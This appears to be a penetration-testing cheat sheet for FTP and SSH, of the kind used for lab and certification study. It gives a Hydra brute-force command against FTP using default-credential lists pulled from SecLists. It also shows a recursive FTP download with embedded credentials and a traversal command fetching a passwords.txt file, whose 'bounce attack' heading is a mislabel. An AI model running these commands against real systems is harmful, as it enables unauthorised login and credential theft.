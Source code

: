 Always try **admin** as a possible username

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt && cat ftp-betterdefaultpasslist.txt| awk -F ':' '{print $1}' > ftp_usernames.txt && cat ftp-betterdefaultpasslist.txt| awk -F ':' '{print $2}' > ftp_passwords.txt
```

```bash
hydra -L ftp_usernames.txt -P ftp_passwords.txt $ip ftp -V -f
```

### FTP Recursive Download

```bash
wget -r ftp://user:pass@server.com/
```

### FTP Bounce Attack Downloading Files

```bash
get ..\\xampp\\passwords.txt
```

---

### Port 22 - Problems logging in with SSH

Server that requires diffie-hellman-group1-sha1:

[https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0](https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0)

[https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss](https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss)

```bash
ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss user@$ip
```

Still can’t login? Add the following to /etc/ssh/ssh_config

```bash
PubkeyAcceptedKeyTypes +ssh-dss
```

### Port 22 - Problems logging in with SSH (private key)

```bash
sign_and_send_pubkey: no mutual signature supported
```

Fix

```bash
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa $user@$ip
```

---